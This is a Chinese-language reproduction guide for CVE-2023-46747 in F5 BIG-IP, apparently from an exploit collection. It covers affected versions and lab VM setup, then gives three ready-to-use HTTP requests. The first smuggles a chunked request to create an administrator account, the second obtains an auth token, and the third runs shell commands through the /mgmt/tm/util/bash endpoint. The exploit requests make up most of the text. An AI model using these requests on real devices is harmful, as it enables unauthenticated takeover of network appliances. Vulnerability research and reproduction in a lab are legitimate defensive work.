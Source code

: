 # F5 BIG-IP 远程代码执行漏洞(CVE-2023-46747)

## F5 BIG-IP 远程代码执行漏洞(CVE-2023-46747)

## 漏洞描述

**F5 BIG-IP 远程代码执行漏洞(CVE-2023-46747)**，未经授权的远程攻击者通过管理端口或自身IP地址访问BIG-IP系统，利用此漏洞可能绕过身份认证，导致在暴露流量管理用户界面（TMUI）的 F5 BIG-IP 实例上执行任意代码。

## 影响版本

```
F5 BIG-IP <= 17.1.0
16.1.0 <= F5 BIG-IP <= 16.1.4
15.1.0 <= F5 BIG-IP <= 15.1.10
14.1.0 <= F5 BIG-IP <= 14.1.5
13.1.0 <= F5 BIG-IP <= 13.1.5
```

## 环境下载

```
https://my.f5.com/manage/s/downloads?productFamily=BIG-IP&productLine=big-ip_v15.x&version=15.1.8&container=Virtual-Edition&files=BIGIP-15.1.8-0.0.7.ALL-vmware.ova&locations=JAPAN

链接：https://pan.baidu.com/s/1zLMXJCKtZtzIxCQGoxwPgg 
提取码：ksdn 
```

搭建方式很简单，下载BIGIP-15.1.8-0.0.7.ALL-vmware.ova，接着用vm打开ova即可

搭建过程 [F5 WMware虚拟机环境搭建-BIG-IP Virtual Edition 11.3.0-CSDN博客](https://blog.csdn.net/ice_age1/article/details/49998059)

重置web密码

```
进入tmsh模式 敲击
modify auth user admin password admin
```

搭建成功页面



## 漏洞复现

### 第一步 发送 TMUI模块的请求

当发送到F5 BIG-IP TMUI模块的请求（例如登陆页面/tmui/login.jsp）中，包含一个类似值为 "xxx, chunked" 的 "Transfer-Encoding" 头，并且请求体内容满足特定内容时，漏洞会被触发。

&name=adminqq&name_before=&passwd=admin789456 参数填入创建账户

```
POST /tmui/login.jsp HTTP/1.1
Host: 192.168.127.146
Content-Type: application/x-www-form-urlencoded


204		
HTTP/1.1/tmui/Control/form	127.0.0.1	localhost	localhostPTmui-DubbufBBBBBBBBBBB
REMOTEROLE0�	localhostadminq_timenow=a&_timenow_before=&handler=%2ftmui%2fsystem%2fuser%2fcreate&&&form_page=%2ftmui%2fsystem%2fuser%2fcreate.jsp%3f&form_page_before=&hideObjList=&_bufvalue=eIL4RUnSwXYoPUIOGcOFx2o00Xc%3d&_bufvalue_before=&systemuser-hidden=[["Administrator","[All]"]]&systemuser-hidden_before=&name=adminqq&name_before=&passwd=admin789456&passwd_before=&finished=x&finished_before=�
0
```

![](/assets/20231031212344495.png)



### 第二步 获取用户token

```
POST /mgmt/shared/authn/login HTTP/1.1
Host: 192.168.127.146
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

 {"username":"admin", "password":"admin789456"}
```

![](/assets/20231031212450387.png)



### 第三步 执行命令

将获取到得token带入`X-F5-Auth-Token`中，在通过`/mgmt/tm/util/bash` 执行命令

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 192.168.127.146
Connection: keep-alive
Content-Length: 22
X-F5-Auth-Token:ICGZXJJROASFRPWYZF3EAQFCGN

 {"command":"run","utilCmdArgs":"-c whoami"}
```

![](/assets/20231031212657529.png)



### 参考链接

```
https://mp.weixin.qq.com/s/iN7rlJJaI4sl-fiL0eMXsQ
https://github.com/projectdiscovery/nuclei-templates/blob/56d79688e0d2ebce5b8939961946f4f32e663700/http/cves/2023/CVE-2023-46747.yaml
https://mp.weixin.qq.com/s/wUoBy7ZiqJL2CUOMC-8Wdg
https://blog.csdn.net/ice_age1/article/details/49998059
```


